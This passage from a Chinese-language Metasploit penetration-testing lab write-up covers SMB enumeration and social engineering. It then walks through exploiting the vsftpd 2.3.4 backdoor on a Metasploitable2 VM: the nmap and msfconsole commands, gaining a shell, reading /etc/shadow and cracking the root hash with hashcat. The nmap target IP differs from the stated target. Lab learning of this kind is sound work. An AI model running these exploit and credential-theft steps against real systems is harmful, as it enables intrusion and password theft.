 ![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-5-7-%E7%A0%B4%E9%98%B2%E5%AE%9E%E8%B7%B53_metasploit%E6%B8%97%E9%80%8F%E5%AD%A6%E4%B9%A0/11.png)

SMB共享枚举模块在后续的攻击阶段也非常有用，通过提供凭据，可以轻松的枚举共享和文件列表

....

像一些服务还有很多很多，像HTTP扫描、FTP扫描、SSH版本扫描、SMTP枚举、SNMP枚举....


### 3、社会工程学

注： 这种方式主要是利用人的行为和心理漏洞，metasploit当然是不提供这个功能的。

这种方式类似于被动信息收集，主要是针对人为错误，信 息以打印输出、电话交谈、电子邮件等形式泄露。使用这种方法的技术有很多， 收集信息的方式也不尽相同，因此，社会工程学本身就是一个技术范畴

社会工程的受害者被诱骗发布他们没有意识到会被用来攻击企业网络的信 息。例如，企业中的员工可能会被骗向假装是她信任的人透露员工的身份号码。 尽管该员工编号对员工来说似乎没有价值，这使得他在一开始就更容易泄露信息， 但社会工程师可以将该员工编号与收集到的其他信息一起使用，以便更快的找到 进入企业网络的方法

## 实战

对目标机 metasploit2进行攻击

### 1.IP地址

攻击机IP：192.168.237.128

靶机IP：192.168.237.140

### 2.密码设置

Msfadmin密码: 20001009
Root 密码 ：12345678

### 3.端口扫描

msf tcp端口扫描

发现开放了ftp端口

使用如下命令

        nmap -script ftp-vsftpd-backdoor -p 21 192.168.91.128

发现存在 vsftpd漏洞

        search vsftpd

发现脚本可以用

        use exploit/unix/ftp/vsftpd_234_backdoor
        set rhost 192.168.237.140
        exploit

能成功获得shell

        cat /etc/shadow

获得root对于的密码（md5加密，salt值已经给出了

拿去用hashcat 爆破一下就能出



## 参考

[合天网安实验室](https://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652850556&idx=1&sn=bbfae36b3cbb012fc498ab3aa20501f3&chksm=bd5935%E2%80%A6)

